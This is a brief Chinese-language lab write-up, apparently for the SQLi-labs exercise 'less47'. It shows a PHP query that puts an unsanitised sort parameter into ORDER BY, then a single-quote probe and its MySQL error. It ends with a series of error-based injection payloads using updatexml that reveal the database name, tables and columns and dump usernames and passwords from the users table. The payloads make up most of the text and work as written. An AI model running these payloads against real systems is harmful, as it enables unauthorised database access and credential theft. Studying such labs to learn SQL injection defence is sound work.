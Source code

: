 ```yaml
---
title: less47
url: https://www.yuque.com/u29002979/ep2zrx/kx2cvm13e1ioy8kb
---
```


```bash
$id=$_GET['sort'];	

$sql = "SELECT * FROM users ORDER BY '$id'";
```

闭合方式为单引号' <a name="qjWYr"></a>

# 注入点检查

`?sort=1'`

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1''' at line 1

单引号'闭合 <a name="gX6OV"></a>

# 报错注入

```bash
查询数据库表
?sort=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1) -- +
爆破数据表
?sort=1' and updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database()),0x7e),1) -- +
爆破字段名
?sort=1' and updatexml(1,concat(0x7e,(select  group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1) -- +
爆破字段
?sort=1' and updatexml(1,concat(0x7e,(select group_concat(username,0x7e,password) from users limit 0,1),0x7e),1) -- +
```
